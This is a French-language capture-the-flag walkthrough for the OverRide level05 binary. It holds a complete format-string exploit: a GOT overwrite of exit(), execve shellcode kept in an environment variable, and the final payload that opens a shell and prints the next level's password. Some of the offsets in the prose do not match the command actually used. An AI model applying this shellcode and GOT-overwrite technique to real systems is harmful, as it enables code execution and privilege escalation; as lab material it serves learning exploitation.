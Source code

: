 on a un exécutable qui lit sur l'entrée standard

après le désassemblage on voit un printf non protégé que l'on peut utiliser pour modifier l'appel de _exit()_

```
(gdb) disas 0x08048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

```
level05@OverRide:~$ echo -e '\xe0\x87\x04\x08 %x %x %x %x %x %x %x %x %x %x'| cat | ./level05
� 64 f7fcfac0 f7ec3af9 ffffd6ef ffffd6ee 0 ffffffff ffffd774 f7fdb000 80487e0
```

l'adresse de _exit()_ est visible à la 10ème position

il n'y a pas d'appel a system("/bin/sh"), alors on passe par une variable d'environnement avec un shellcode

on ajoute des instructions NOP devant le shellcode pour trouver la bonne adresse plus facilement

```
export SHELLCODE=`python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`
```

et on recupere l'adresse de *SHELLCODE* pour remplacer l'adresse d'_exit()_

```
(gdb) x/10s *(char**)environ
0xffffd86f:      "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\260\v̀"

(gdb) x/500x environ
...
0xffffd86c:     0x3530  0x5300  0x4548  0x4c4c  0x4f43  0x4544  0x903d  0x9090
0xffffd87c:     0x9090  0x9090  0x9090  0x9090  0x9090  0x9090  0x9090  0x9090
0xffffd88c:     0x9090  0x9090  0x9090  0x9090  0x9090  0x9090  0x9090  0x9090
0xffffd89c:     0x9090  0x9090  0x9090  0x9090  0x9090  0x9090  0x9090  0x9090
0xffffd8ac:     0x9090  0x9090  0x9090  0x9090  0x9090  0x9090  0x9090  0x9090
0xffffd8bc:     0x9090  0x9090  0x9090  0x9090  0x9090  0x9090  0x9090  0x9090
0xffffd8cc:     0x9090  0x9090  0x9090  0x9090  0x9090  0x9090  0x9090  0x9090
0xffffd8dc:     0x3190  0x50c0  0x2f68  0x732f  0x6868  0x622f  0x6e69  0xe389
...
```

n'importe quelle adresse ou l'ont voit les NOP marchera : on prend 0xffffd87c

mais l'adresse est trop grande pour rentrer dans un _int_ : 0xffffd87c = (dec)4294957180

il faut l'envoyer en deux parties :

- ffff = 65535, d87c = 55420
- %55540d%10$hn + %(65535 - 55540)d%11$hn
- (premiere moitie de l'adresse d'exit) + (deuxieme moitie de l'adresse d'exit) + (55540 octets - taille des adresses precedentes) + (65535 - 55540 octets)

```
(echo -e '\xe0\x97\x04\x08\xe2\x97\x04\x08%55432d%10$hn%10095d%11$hn' ; cat) | ./level05
...
pwd
/home/users/level05
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```